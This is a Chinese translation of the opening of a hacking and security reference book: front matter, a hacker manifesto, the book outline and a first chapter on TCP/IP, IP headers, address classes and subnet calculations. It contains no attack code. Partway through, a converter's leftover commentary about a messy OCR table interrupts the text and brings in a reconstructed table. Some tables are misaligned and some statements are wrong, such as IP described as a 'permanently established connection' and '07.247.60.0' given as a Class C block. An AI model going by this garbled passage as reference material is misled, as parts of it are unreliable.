# 黑客攻击揭秘：UNIX、Windows 和 Linux 完整参考指南及自定义安全工具包（第二版）

# 致谢

首先，我要感谢我的妻子在本书开发过程中的持续支持和耐心，以及她对本书的校对。其次，我要感谢我的家人和朋友们的鼓励、支持和信心。我也要感谢 Mike Tainter 和 Dennis Cornelius 提供的早期创意。我还要表达对编程大师 Michael Probert 在编码基础参与方面的钦佩。

还要感谢以下人士：Shadowlord, Mindgame, Simple Nomad, The LAN God, Teiwaz, Fauzan Mirza, David Wagner, Diceman, Craigt, Einar Blaberg, Cyberius, Jungman, RX2, itme, Greg Miller, John Vranesevich, Deborah Triant, Mentor, FBI, 美国国家计算机安全中心, 2600.com, Fyodor, Muffy Barkocy, Wintermute, dcypher, manix, Tsutomu Shimomura, humble, The Posse, Jim Huff, Soldier, Mike Frantzen, T freak, Dan Brumleve, Arisme, Georgi Guninski, Satanic Mechanic, Mnemonic, The Grenadier, Jitsu, lore, 416, 所有 H4G1S 成员, ValCom 的每个人, 以及启发我的 Bruce Schneier。

曾经有人告诉我，要想成功，必须与最优秀的人为伍。本着这个理念，我感谢 Waterside Productions 的 David Fugate，以及 John Wiley & Sons, Inc. 的 Carol Long, Mathew Cohen, A daoobi Obi, Micheline Frederick，还有其他我遗忘提及的人。

# 致读者

本书中提到的所有已知为商标或商业标记的术语均已适当大写。我们无法保证这些信息的准确性。在本书中使用某个术语不应被视为影响任何商标或商业标记的有效性。

本书仅供信息参考。未经目标公司书面同意，这些程序在美国及许多其他国家属于非法行为。作者或出版商对书中信息的使用或误用不承担责任。

# 引言

我们是那些技术取向强烈且被常态排斥的人，或者至少，这是我们（或者我们希望）看待世界的方式。我们擅长与机器打交道，操纵事物。一切对我们来说都很容易，当事情总是一帆风顺地降临在你身上时，你开始觉得无所谓……觉得世界是被操纵的。也许这就是为什么我们总是寻找阴谋，而当它们不存在时，我们就自己创造它们。也许我会去按另一个军事开关……

我们为什么是这样？

我们与其他人不同，而那些其他人并不总能接受这一点。我们自己不是种族主义者，不是性别歧视者，也不是理想主义者。我们并不觉得其他人能理解我们。我们中聚集在这里的电子同类是相似的，但在现实世界中，我们如此稀少和分散，以至于我们在正常社会中感到不自在。

我们快速掌握概念，并且由于我们善于操纵的天性，迅速看穿那些说谎的人。他们无法欺骗我们。我们不在乎。有系统可供黑客攻击。实际上，我们在乎更多，但很难对其产生影响。

我们是茫然和困惑的技术型商场老鼠，等待末日的到来。它何时到来？我们已做好准备，并且渴望它。如果它不出现……我们将在千禧年祭坛上被抛弃。也许我们会创造它。或者至少梦想它。无政府状态？

冷漠人群中的黑暗幻象。

然而，我们不是技术哥特分子，等待遥远且可怕的赛博反乌托邦。我们有生活，想要生活。我们厌倦了听到少数人告诉我们我们是“不同”的。对于我们，迈向下一个千年的年轻一代，由技术聚集在技术中的年轻一代，“不同”这个词不应该重要。我们都“不同”，都是异常……但这不应产生影响。

那些处于技术边缘、摇摇欲坠的人，嘲笑那些不理解技术的人。他们代表了旧世界，由种族和在社会中的先前地位驱动。我们嘲笑他们“不同”，因为他们拒绝对差异保持冷漠。为什么他们不能像我们一样不同？

Microsoft 问我想去哪里。我想去的地方只有明天。我是未来的黑客，这是我的宣言……

—Mindgame

随着世界通过互联网变得越来越网络化，竞争对手、间谍、不满的员工、无聊的青少年和黑客更频繁地入侵他人的计算机以窃取信息、破坏职业生涯，或者仅仅是制造麻烦。互联网和万维网一起打开了一个新的后门，通过它，远程攻击者可以入侵家庭计算机或公司网络，并电子窥探其中的数据。根据我的经验，大约85%连接到互联网的网络容易受到此类威胁。

互联网的持续增长以及技术的进步意味着这些入侵将变得越来越普遍。今天，外部威胁对于任何拥有连接性的公司来说都是现实世界的问题。为了确保远程访问安全，系统安全，以及安全


只有当策略健全时，各行各业的用户才需要理解黑客，了解黑客是如何思考的——简而言之，成为黑客。

本书的主要目标是为探索安全世界奠定坚实的基础。简单来说，本书揭露了黑客技术的真相，旨在提高人们对所谓“地下世界”（即黑客社区）的认识，并提供相应的工具。

本书分为六个部分：

## 第 1 部分：起源
- 第 1 章：理解通信协议
- 第 2 章：NetWare 和 NetBIOS 技术

## 第 2 部分：融会贯通
- 第 3 章：理解通信介质

## 第 3 部分：挖掘漏洞
- 第 4 章：知名端口及其服务
- 第 5 章：发现与扫描技术

## 第 4 部分：渗透安全漏洞
- 第 6 章：黑客技术手册
- 第 7 章：黑客编码基础
- 第 8 章：端口、套接字和服务漏洞的渗透

## 第 5 部分：漏洞黑客的秘密
- 第 9 章：网关、路由器和 Internet 服务器守护进程
- 第 10 章：操作系统
- 第 11 章：代理服务器和防火墙

## 第 6 部分：黑客工具箱
- 第 12 章：TigerSuite：完整的互连网络安全工具箱

本书与其他技术著作的不同之处在于，它是从黑客的视角撰写的。第 1 部分和第 2 部分的互连网络入门内容，结合第 6 章《黑客技术手册》，将向你介绍深入安全和黑客领域所需的技术。如果你的技术背景扎实，这些章节可以略读，并稍后作为参考使用。第 3 部分详细回顾了统治“黑客界”的工具和漏洞利用方法。第 4 部分继续描述黑客、破解者、电话黑客（phreaks）和网络朋克（cyberpunks）使用的隐秘技术，以渗透安全弱点。第 5 部分揭示了网关、路由器、Internet 服务器守护进程、操作系统、代理服务器和防火墙的黑客秘密。第 6 部分以软件构建和组装 TigerBox 所必需的构造结束，安全专业人士和黑客使用 TigerBox 进行嗅探、欺骗、破解、扫描、间谍活动和渗透漏洞。在整本书中，你还会遇到“直觉性间歇”，这些是关于黑客和地下世界的真实生活插曲。通过它们，你将探索黑客编年史，包括完整的技术指南。

## 谁应该读这本书

陈词滥调“最好的防御是良好的进攻”确实适用于网络安全世界。本书的评估者建议，这本书可能成为管理人员、网络管理员（CNA、MCP）、网络工程师（CNE、MCS）、互连网络工程师（CCNA/P、CCIE）甚至感兴趣的普通人的必读参考书。本书中的材料将帮助这些类别中的成员更好地理解如何入侵网络漏洞。

更具体地说，以下列出了各种目标读者：

- 家庭或小型家庭办公室（SOHO）Internet 爱好者，其网络浏览包括安全在线订购、填写表格和/或传输文件、数据和信息
- 网络工程师，他们的世界围绕着安全
- 安全工程师，其目标是成为安全天才
- 黑客、破解者和电话黑客，他们会发现这本书既有教育意义又令人娱乐
- 非技术管理人员，其工作可能依赖于书中的信息
- 黑客爱好者以及 *Sneakers*、*The Matrix* 和 *Hackers* 等电影的崇拜者
- 聪明好学的青少年，读完这些篇章后，他们的命运可能会变得明朗

作为这里的读者，你面临着一段充满挑战的“技术哥特式”旅程，而我将是你的向导。恶意个体正在侵染技术世界。我的目标是帮助你成为一名正直的黑客大师。

## 作者简介

John Chirillo 现在是一位著名的超级黑客，致力于获奖项目，协助各地的安全经理。John Chirillo 在 12 岁时开始了他的计算机生涯，当时在自学计算机一年之后，他编写了一个名为 *Dragon’s Tomb* 的游戏。该游戏出版后，数千份副本销售给了彩色计算机系统市场。在接下来的五年里，John 编写了几个其他软件包，包括 *The Lost Treasure*（一个游戏编写教程）、*Multimanager*（一套会计、库存和财务管理软件）、*Sorcery*（一款 RPG 冒险游戏）、*PC Notes*（用于教授从代数到微积分的数学的 GUI）、*Falcon’s Quest* I 和 II（一款图形化、大量使用字典的冒险游戏）以及 *Genius*（一个基于 Windows 的完整定点操作系统），等等。John 后来在多种编程语言中获得了认证，包括 QuickBasic、VB、C++、Pascal、汇编语言和 Java。John 后来开发了 PC Optimization Kit（将速度提高到标准 Intel 486 芯片的 200%）。

John 在学校同样表现出色。他获得了奖学金，包括伊利诺伊州本笃会大学的奖学金。在经营 *Software Now* 和 *Geniusware* 两家企业之后，John 成为一名顾问，专门从事安全和分析工作，为 prestigious 公司服务，在那里他执行安全分析、嗅探器分析、LAN/WAN 设计、实施和故障排除。在此期间，John 获得了众多互连网络认证，包括 Cisco 的 CCNA、CCDA、CCNP，正在进行的 CCIE，Intel 认证解决方案顾问，Compaq ASE 企业存储以及 Master UNIX 等。他目前是一家技术管理公司的高级互连网络工程师。

# 第一部分

## 起源

# 第 1 章

## 理解通信协议

大约 30 年前，开发通信协议是为了使各个站点能够连接起来以形成局域网（LAN）。这组计算机和其他设备分布在相对有限的区域内并通过通信链路连接，使得网络上的任何站点都能与其他任何站点进行交互。这些网络允许站点共享资源，例如激光打印机和大容量硬盘。

本章和第 2 章讨论了成为一套规则或标准的通信协议，旨在使这些站点能够相互连接并交换信息。通常被接受用于标准化整体计算机通信的协议是一个包含七层硬件和软件指南的集合，被称为开放系统互连（OSI）模型。在能够准确定义、实施和测试（入侵）安全策略之前，必须对这些协议有扎实的理解。这些章节将涵盖与 TCP/IP、ARP、UDP、ICMP、IPX、SPX、NetBIOS 和 NetBEUI 相关的规则基础。

## Internet 简史

在 20 世纪 60 年代，美国国防部的先进研究计划局（ARPA，后更名为 DARPA）开始了一个覆盖美国的实验性广域网（WAN）。它被称为 ARPANET，其最初目标是使政府机构、教育机构和研究实验室能够共享计算资源，并通过文件共享和电子邮件进行协作。然而，DARPA 很快就意识到了 ARPANET 的优势以及在全球范围内提供这些网络连接的可能性。

到 20 世纪 70 年代，DARPA 继续积极资助和开展 ARPANET 的研究，以促进网络技术社区框架的发展。该框架的成果是传输控制协议/互联网协议（TCP/IP）套件。（*协议*基本上定义为通过计算机网络通信的一组规则。）为了增加对协议使用的接受度，DARPA 向计算社区披露了该项目的一个成本较低的实现。加州大学伯克利分校的伯克利软件设计（BSD）UNIX 系统是这一实验的主要目标。DARPA 资助了一家名为 Bolt Beranek and Newman, Inc.（BBN）的公司，帮助在 BSD UNIX 上开发 TCP/IP 套件。

这项新技术出现在许多机构正在开发局域网技术以连接同一站点上两台或多台计算机的时期。到 1983 年 1 月，连接在 ARPANET 上的所有计算机都在使用新的 TCP/IP 套件进行通信。1989 年，欧洲核子研究中心（CERN），欧洲的高能物理实验室，发明了万维网（WWW）。CERN 开发这一技术的主要目标是利用 *超文本* 使全球物理学家能够更有效地沟通。当时，*超文本* 仅包括带有命令标签的文档文本，这些标签包含在 `<尖括号>` 中。这些标签用于标记文档的逻辑元素，例如标题、页眉和段落。这很快发展为一种语言，程序员可以用它生成称为超文本标记语言（HTML）的可显示信息页面。1993 年 2 月，位于大学的国家超级计算应用中心


伊利诺伊大学（NCSA）发布了传奇浏览器 Mosaic。使用这款浏览器，用户可以查看以图形方式呈现的 HTML 信息页面。

当时，大约有 50 台 Web 服务器提供可浏览的 HTML 档案。九个月后，这一数字增长到 500 多台。大约一年之后，组成万维网的 Web 服务器已超过 10,000 台，分布在 84 个国家，全部运行在被称为互联网（Internet）的 ARPANET 主干网上。

如今，互联网为全球数百万台主机提供了一种协作手段。互联网当前的主干基础设施可以承载远超 45 兆位/秒（Mb）的流量，这大约是原始 ARPANET *带宽*的一千倍。（带宽是衡量媒体在某一时刻能处理多少流量的指标。在数字通信中，它描述的是每秒能通过网络线路传输的数据量，通常缩写为 bps。）

## 互联网协议

TCP/IP 协议族中的互联网协议（IP）部分是一个四层模型（见图 1.1）。IP 被设计用于互连网络，形成一个互联网，以便来回传输数据。IP 包含寻址和控制信息，使*数据包*能够通过该互联网路由。（数据包被定义为信息的逻辑分组，包括包含控制信息的头部，通常还包括用户数据。）遇到这些数据包的设备——即路由器——会剥离并检查包含敏感路由信息的*头部*。这些头部被修改并重新格式化为一个要传递的数据包。

> **黑客注**
> 数据包头部包含控制信息（路由指定）和用户数据。这些信息可以被黑客复制、修改和/或伪造（伪装）。

IP 的主要功能之一是提供一个永久建立的连接（称为无连接）、不可靠的尽力而为*数据报*传输，穿越互联网。数据报可以被描述为作为网络层单元通过通信介质发送的信息逻辑分组。IP 数据报是互联网中的主要信息单元。IP 的另一项主要职责是数据报的分组与重组，以支持具有不同传输大小的链路。

| 层 | 协议 |
| :--- | :--- |
| 应用层 | 传输控制协议 |
| 互联网层 | 网络地址 |

*(注：原始 OCR 表格是片段化的，且在层名称方面语义不完整，但通常四层是应用层、传输层、互联网层、网络层。基于文本“四层模型”，标准划分为：应用层、传输层、互联网层、网络层。OCR 提供了：应用层、传输控制协议、互联网协议、网络地址。这似乎列出了层及其主要协议。)*

| 层 | 主要协议/功能 |
| :--- | :--- |
| 应用层 | （列表中未明确命名，隐含） |
| 传输层 | 传输控制协议 |
| 网络层 | 互联网协议 |
| 链路层 | 网络地址 |

*更正：OCR 表格杂乱无章。让我们看看原始输入：*
`| Application |`
`| Transmission Control Protocol |`
`| Internet Protocol |`
`| Network Address |`
这看起来像一个垂直列表或解析不当的 2 列表格。鉴于文本中的“四层模型”，标准层是应用层、传输层、互联网层、网络层。
如果可能，我会将其格式化为简单的列表或重建的表格。提示要求将类似表格的文本转换为 Markdown 表格。
文本 `Application | Transmission Control Protocol | Internet Protocol | Network Address` 可能对应于：
第 4 层：应用层
第 3 层：传输层 (TCP)
第 2 层：互联网层 (IP)
第 1 层：网络/链路层
然而，OCR 将“Network Address”放在最后一行。
为了避免发明不明确的列标题，或者如果它看起来像列，我们可以将其呈现为简单的列表或简单的表格。
实际上，看下一页的 `Bits | 4 | 8 | 16 | 19 | 24 | 31`，那是 IP 数据包结构的标题。
第 20 页的第一个表格可能只是图 1.1 的标题。
让我们保持简单。


**图 1.1** 四层 TCP/IP 模型。

IP 数据包结构由以下字段组成：

| 位 | 4 | 8 | 16 | 19 | 24 | 31 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 版本 | 长度 | | | | | | |
| | 服务类型 | | 总长度 | | | |
| 标识 | | 标志 | 片偏移 | | | |
| 生存时间 | 协议 | 头部校验和 | | | | |
| 源地址 | | | | | | |
| 目的地址 | | | | | | |
| 选项 | | | | | | |
| 数据 | | | | | | |

*(注：OCR 的 IP 数据包结构表是标准图示表示。我将将其格式化为 Markdown 表格，近似描述文本中提到的“其中 14 个字段”的布局。)*

在分析会话或*嗅探器捕获*期间，有必要区分不同类型的数据包捕获。以下描述了 IP 数据包及其中的 14 个字段，如图 1.2 所示。

- **版本**。当前使用的 IP 版本。
- **IP 头部长度（长度）**。数据报头部的长度，以 32 位字为单位。
- **服务类型（ToS）**。上层协议（直接上方的层，如 TCP 和 UDP 等传输协议）打算如何处理当前数据报并分配重要性级别。
- **总长度**。整个 IP 数据包的长度，以字节为单位。
- **标识**。用于帮助重组数据报片段的整数。
- **标志**。一个 3 位字段，第一位指定数据包是否可被分组。第二位指示数据包是否为一连串中的最后一个片段。最后一位目前未使用。
- **片偏移**。片段数据相对于原始数据报中起始数据的位置。这允许正确重组原始数据报。
- **生存时间（TTL）**。一个计数器，递减至零以防止数据包无限循环。达到零时，数据包将被丢弃。
- **协议**。指示接收传入数据包的上层协议。
- **头部校验和**。确保 IP 头部的完整性。
- **源地址/目的地址**。发送和接收节点（工作站、服务器和/或路由器）。
- **选项**。通常包含安全选项。
- **数据**。上层信息。


需要注意的关键字段包括**源地址、目的地址、选项**和**数据**。

现在让我们看看图 1.3a 和 1.3b 中 IP 头部的实际嗅探器快照，并与前一个图中的字段进行对比。



**图 1.3a** 在传输互联网控制报文协议（ICMP）ping 测试期间提取的数据（ICMP 将在本章稍后解释）。



**图 1.3b** 在传输 NetBIOS 用户数据报协议（UDP）会话请求期间提取的数据（这些协议将在本章稍后及第 2 章中描述）。

## IP 数据报、封装、大小和分组

IP 数据报是互联网最基本的传输单元。IP 数据报是 IP 模块之间通信的数据单元。IP 数据报具有头部，其字段提供由路由器等基础设施设备使用的路由信息（见图 1.4）。



**图 1.4** 一个 IP 数据报。

请注意，数据包中的数据并不是 IP 真正关心的。相反，IP 关心的是与上层协议相关的控制信息。这些信息存储在 IP 头部中，该头部试图将数据报交付到本地网络或互联网上的目的地址。要理解这种关系，可以将 IP 视为方法，将数据报视为手段。

> **黑客注**
> **IP 头部是收集信息以及获取控制权的主要字段。**

理解数据报穿越网络的方法至关重要。为了充分穿越互联网，通过物理介质，我们希望保证每个数据报都在一个物理帧中传输。数据报在帧中穿越介质的过程称为*封装*。

现在，让我们看看一个实际的数据报传输场景，以进一步解释这些传输数据报的方法（见图 1.5）。此示例包括通过互联网连接三个分支办公室，连接以太网、令牌环以及 FDDI（光纤分布式数据接口）或光纤冗余令牌环网络。



**图 1.5** 传输数据报的实际示例。

理想情况是整个 IP 数据报适配到一个帧中；并且它穿越的网络支持该特定传输大小。但众所周知，理想情况很少见。我们的传输数据报存在的一个问题是，网络强制执行最大传输单元（MTU）大小，或对传输大小施加限制。为了进一步混淆问题，不同类型的网络执行其自己的 MTU；例如，以太网的 MTU 为 1500，FDDI 使用 4470 MTU，等等。当帧中传输的数据报穿越具有不同指定大小限制的网络类型时，路由器有时必须将数据报分组以适应较小的 MTU。这个过程称为*分组*。


**路由器提供数据报的分组过程，因此容易受到被动和侵入性攻击的影响。**

## IP 地址、类别、子网掩码

如果没有使用独特的寻址系统，在互联网上通信几乎是不可能的。为了防止使用重复地址，节点之间的路由基于从互联网信息中心（InterNIC）可用的地址池或类分配的地址。InterNIC 通过分配三个类（A、B 和 C）的地址来分配和控制互联网上使用的所有网络地址，这些地址由 32 位数字组成。默认情况下，A、B 和 C 类的可用位分别为 8、16 和 24。自 20 世纪 70 年代以来，该池中的地址已被分配和使用，其中包括图 1.6 所示的范围；图 1.7 展示了一个 IP 地址示例。

| 类别 | 第一个八位组或系列 | 八位组作为网络与主机 | 网络掩码二进制 |
| :--- | :--- | :--- | :--- |
| A | 1 – 126 | 网络.主机.主机.主机 | 1111 1111 0000 0000 0000 0000 0000 0000 或 **255.0.0.0** |
| B | 128 – 191 | 网络.网络.主机.主机 | 1111 1111 1111 1111 0000 0000 0000 0000 或 **255.255.0.0** |
| C | 192 – 223 | 网络.网络.网络.主机 | 1111 1111 1111 1111 1111 1111 0000 0000 或 **255.255.255.0** |
| D | *为多播操作定义，不用于正常操作* | | |
| E | *为实验性使用定义，不用于正常操作* | | |

**图 1.6** IP 地址按类别图表。


# 图 1.7 包含四个八位组的 IP 地址示例。

第一个八位组（206）表示一个 C 类（由互联网机构分配）IP 地址范围，其格式为 `Network.Network.Network.Host`，标准掩码二进制数指示为 255.255.255.0。这意味着我们在最后一个八位组中有 8 个位用于主机。组成最后一个（即第四个）八位组的 8 个位被路由器等基础设施设备以及软件按以下方式理解：

- 位：1 2 3 4 5 6 7 8
- 值：128 64 32 16 8 4 2 1 = 255（254 个可用主机）

在这个完整的 C 类示例中，我们只有 254 个可用的主机 IP 地址；0 和 255 不能用作主机地址，因为网络号是 0，而广播地址是 255。

随着 B 类地址空间的充分利用和 C 类地址请求的泛滥，无类域间路由（CIDR）系统在 20 世纪 90 年代初被引入。基本上，路由不再是一个 IP 地址；现在，路由是 IP 地址和掩码的组合，这允许我们将网络划分为*子网*和*超网*。这也大大减少了互联网路由表的大小。

> 理解 IP 地址掩码和子网划分对于进行安全分析、渗透测试和欺骗至关重要。本章后面将提供有关这些主题的更多信息。

## 子网划分、VLSM 以及轻松解开 IP 的奥秘

子网划分是将已分配或导出的地址类划分为更小、独立但相关的物理网络的过程。可变长子网掩码（VLSM）是通过路由协议广播子网信息（将在下一章中介绍）的一种机制。子网掩码是一个 32 位数字，决定了 IP 地址在位级别的网络划分。

**图 1.8** 现实世界的 IP 网络示例。

### 示例 1

让我们来看一下为路由网络分配 IP 地址的现实场景（图 1.8）。

**已知条件：206.0.125.0（NIC 分配的 C 类）。** 在这个场景中，我们需要将我们的 C 类地址块划分为三个可用子网（用于办公室 A、B 和 C）以及两个用于未来扩展的子网。每个子网或网络必须至少拥有 25 个可用节点地址。此过程可以分为五个步骤。

**步骤 1**

每个办公室的路由器接口需要四个主机地址：路由器 1 的 Ethernet 0，路由器 2 的 Ethernet 0/Ethernet 1，以及路由器 3 的 Token Ring 0（参见图 1.9）。

**步骤 2**

只有一个选项支持我们每网络至少 25 个 IP 地址的五个子网场景（如图 1.10 中的 C 类子图表所示）。

| 子网 | 接口 |
| :--- | :--- |
| 1 | 路由器 1 - Ethernet 0<br>路由器 1 - Serial 0 *（IP 地址将由互联网服务提供商提供）*<br>路由器 2 - Ethernet 0 |
| 2 | 路由器 2 - Ethernet 1 |
| 3 | 路由器 3 - Token Ring 0<br>路由器 3 - Serial 0 *（IP 地址将由互联网服务提供商提供）* |

**图 1.9** 现实世界网络示例接口需求表。

参见附录 A：“IP 参考表和子网划分图表”，以及光盘上的 IP 子网划分计算器，以便快速计算。在发现分析过程中搜索网络上的所有可能主机时，理解这一过程至关重要。

| 子网掩码中的位数 | 子网掩码 | 子网数量 | 每个子网的主机数 |
| :---: | :---: | :---: | :---: |
| 2 | 255.255.255.192 | 2 | 62 |
| 3 | **255.255.255.224** | **6** | **30** |
| 4 | 255.255.255.240 | 14 | 14 |
| 5 | 255.255.255.248 | 30 | 6 |
| 6 | 255.255.255.252 | 62 | 2 |

**图 1.10** C 类子网图：子网数量与每个子网主机数量的关系。

- **子网掩码中的位数：** 结合前面给出的信息，让我们进一步探索子网掩码的位分解。当使用某一位时，我们用 1 表示：

```
3 位: 1       1       1
值:   128     64      32      16      8       4       2       1
```

当不使用某一位时，我们用 0 表示：

```
3 位:         0       0       0       0       0
值:   128     64      32      16      8       4       2       1
```

子网掩码

```
3 位: 1       1       1       0       0       0       0       0
值:   128     64      32      16      8       4       2       1
值:   128+ 64+        32 = 224 (掩码 = 255.255.255.224)
```

- **子网数量**：请记住，在这个场景中，我们需要将我们的 C 类地址块划分为三个可用子网（用于办公室 A、B 和 C）以及两个用于未来扩展的子网，且五个网络中的每个网络至少要有 25 个可用节点地址。

- 为了使这个过程尽可能简单，让我们先从较小的数字开始——即所需的子网或网络数为 5，而不是每个网络所需的可用节点数为 25。为了解决图 1.10 中所需的子网数，我们将使用以下方程开始求解，其中我们将求解 $2^n - 2$ 中的 $n$，以确保覆盖所需的五个子网或网络。

- 让我们从 2 的幂开始，逐步递增：

$2^2 - 2 = 2$ $2^3 - 2 = 6$ $2^4 - 2 = 14$

- 方程中的（3 次幂）指示子网掩码中的位数。在这里我们可以看到，如果我们使用这 3 位，那么 $2^3 - 2 = 6$ 个子网。这将覆盖所需的五个子网，并多出一个子网（或网络）。

- **每个子网的主机数**：现在让我们确定剩余位中用于可用主机地址的数量。在这个场景中，我们将使用掩码中的 3 位进行子网划分。剩下多少位？

- 在构成 IP 地址的给定 32 位中，如前所述，A、B 和 C 类地址块的默认可用性（网络与主机之间）如下：

A 类：8 位

B 类：16 位

C 类：24 位

我们的场景涉及由 InterNIC 分配的 C 类块。如果我们从构成 IP 地址的标准 32 位中减去 C 类的默认位可用性 24 位（如所示），则 C 类块在网络与主机方面还剩 8 位。

接下来，我们从用于网络与主机的总剩余 8 位中减去用于子网划分的 3 位，这为我们留下了 5 位用于实际的主机寻址：

```
3 位: 1   1   1   0   0   0   0
值:   128  64  32  (16  8   4   2   1)
                    剩余 5 位
```

让我们解一个方程，看看 5 位是否足以覆盖每个子网或网络至少 25 个可用节点地址的需求：

```
$2^5 - 2 = 30$
```

将剩余的 5 位放回我们的方程中，得到每个子网或网络的可用节点地址数，即 $2^5 - 2 = 30$ 个主机地址，适用于六个子网或网络（记住，我们多出了一个子网）。

通过这些步骤，我们可以使用 3 位将我们的 C 类块划分为每个拥有 30 个主机地址的六个子网。

### 步骤 3

既然我们已经确定了子网掩码，在这种情况下是 255.255.255.224（3 位），我们需要计算每个网络中的实际网络号或 IP 地址范围。

实现这一点的一种简单方法是将主机位设置为 0。请记住，我们还有 5 位用于主机：

3 位:  1   1   1   0   0   0   0

值:   128  64  32  (16  8   4   2   1)

剩余 5 位主机位

将 5 个主机位设置为 0 后，我们在每种变体中将前 3 位设置为 1，然后计算值（作为捷径，取第一个子网值=32 并依次相加以揭示所有六个子网）：

3 位: 0   0   1   0   0   0   0

值:   128  64  32  (16  8   4   2   1)

32 = 32

3 位: 0   1   0   0   0   0   0

值:   128  64  32  (16  8   4   2   1)

64 = 64

3 位: 0   1   1   0   0   0   0

值:   128  64  32  (16  8   4   2   1)

64+ 32 = 96

3 位: 1   0   0   0   0   0   0

值:   128  64  32  (16  8   4   2   1)

128 = 128

3 位: 1   0   1   0   0   0   0

值:   128  64  32  (16  8   4   2   1)

128+ 32 = 160

3 位: 1   1   0   0   0   0   0

值:   128  64  32  (16  8   4   2   1)

128+ 64 = 192

现在让我们看一下我们的子网化 C 类块的网络号，掩码为 255.255.255.224：

206.0.125.32    206.0.125.64    206.0.125.96
206.0.125.128   206.0.125.160   206.0.125.192

### 步骤 4


## 既然我们已经解决了网络号……

既然我们已经解决了网络号，让我们通过将主机位全设为 1 来解析每个网络的*广播地址*。广播地址被定义为将单个数据包复制并投递到网络上所有地址的系统。连接到网络的所有主机都可以通过向一个已知为广播地址的公共地址发送数据包来通知：

```text
3 Bits:      0   0   1   1   1   1   1   1
Value:       128  64   32 16  8   4   2   1
32 + 16 + 8 + 4 + 2 + 1 = **63**

3 Bits:      0   1   0   1   1   1   1   1
Value:       128  64   32 16  8   4   2   1
64 + 16 + 8 + 4 + 2 + 1 = **95**

3 Bits:      0   1   1   1   1   1   1   1
Value:       128  64   32 16  8   4   2   1
64 + 32 + 16 + 8 + 4 + 2 + 1 = **127**

3 Bits:      1   0   0   1   1   1   1   1
Value:       128  64   32 16  8   4   2   1
128 + 16 + 8 + 4 + 2 + 1 = **159**

3 Bits:      1   0   1   1   1   1   1   1
Value:       128  64   32 16  8   4   2   1
128 + 32 + 16 + 8 + 4 + 2 + 1 = **191**

3 Bits:      1   1   0   1   1   1   1   1
Value:       128  64   32 16  8   4   2   1
128 + 64 + 16 + 8 + 4 + 2 + 1 = **223**
```

让我们来看一下我们划分子网后的 C 类地址块（掩码为 255.255.255.224）的网络广播地址：

- 206.0.125.63
- 206.0.125.95
- 206.0.125.127
- 206.0.125.159
- 206.0.125.191
- 206.0.125.223

## 步骤 5

那么，我们六个网络中可用的 IP 地址究竟是多少呢？它们是每个子网或网络中位于网络地址和广播地址之间的地址（见图 1.11）。

| 网络地址 | 广播地址 | 有效 IP 地址范围 |
| :--- | :--- | :--- |
| 206.0.125.32 | 206.0.125.63 | 206.0.125.33 - 206.0.125.62 |
| 206.0.125.64 | 206.0.125.95 | 206.0.125.65 - 206.0.125.94 |
| 206.0.125.96 | 206.0.125.127 | 206.0.125.97 - 206.0.125.126 |
| 206.0.125.128 | 206.0.125.159 | 206.0.125.129 - 206.0.125.158 |
| 206.0.125.160 | 206.0.125.191 | 206.0.125.161 - 206.0.125.190 |
| 206.0.125.192 | 206.0.125.223 | 206.0.125.193 - 206.0.125.222 |



## 利用捷径解开 IP 之谜

让我们简要了解一下在已知 IP 地址的情况下确定网络地址的一种捷径。

**已知：206.0.139.81 255.255.255.224**。要计算该主机的网络地址，让我们从左侧（即最大的数值）开始，将主机八位位组（.81）和子网掩码八位位组（.224）映射出来：

```text
(.81)
Bits:  1   1   1
Value: 128  64   32  16   8   4   2   1
        64 + 16 + 1 = 81

(.224)
Bits:  1   1   1
Value: 128  64   32   16   8   4   2   1
       128 + 64 + 32 = 224
```

现在我们可以执行数学上的“逻辑与”运算，以获得该主机的网络地址（值 64 是唯一的公共位）：

```text
(.81)
Bits:  1   1   1
Value: 128  64  32   16 8 4  2 1

(.224)
Bits:  1   1   1
Value: 128  64  32   16 8 4  2 1

         64 = 64
```

我们只需将 1 水平对齐放在一起，并记录公共值（206.0.139.64）。

## 示例 2

现在让我们计算另一个示例的 IP 子网、网络和广播地址：

**已知：07.247.60.0**（InterNIC 分配的 C 类）**255.255.255.0**。在这种场景下，我们需要划分我们的 C 类地址块以容纳 10 个可用子网。每个子网或网络必须至少有 10 个可用的节点地址。此示例需要四个步骤来完成。

### 步骤 1

- **子网数量：** 记住，在这种场景下，我们需要划分我们的 C 类地址块以容纳 10 个可用子网，每个 10 个网络中至少有 10 个可用节点地址。
- 让我们从所需的子网数量 10 开始，并使用以下方程，我们将求解 $2^n - 2$ 中的*n*，确保覆盖所需的 10 个子网或网络。
- 我们从 2 的幂开始，逐步递增：
    - $2^2 - 2 = 2$
    - $2^3 - 2 = 6$
    - $2^4 - 2 = 14$
- 在这个方程中，（4 次幂）表示子网掩码中的位数。请注意，如果使用这 4 位，$2^4 - 2 = 14$ 个子网。这将覆盖所需的 10 个子网，并留出四个额外的子网（或网络）。
- **子网掩码**
    - 4 位：1 1 1 1 0 0 0 0
    - **数值：** 128 64 32 16 8 4 2 1
    - **计算：** 128 + 64 + 32 + 16 = 240（掩码 = 255.255.255.240）
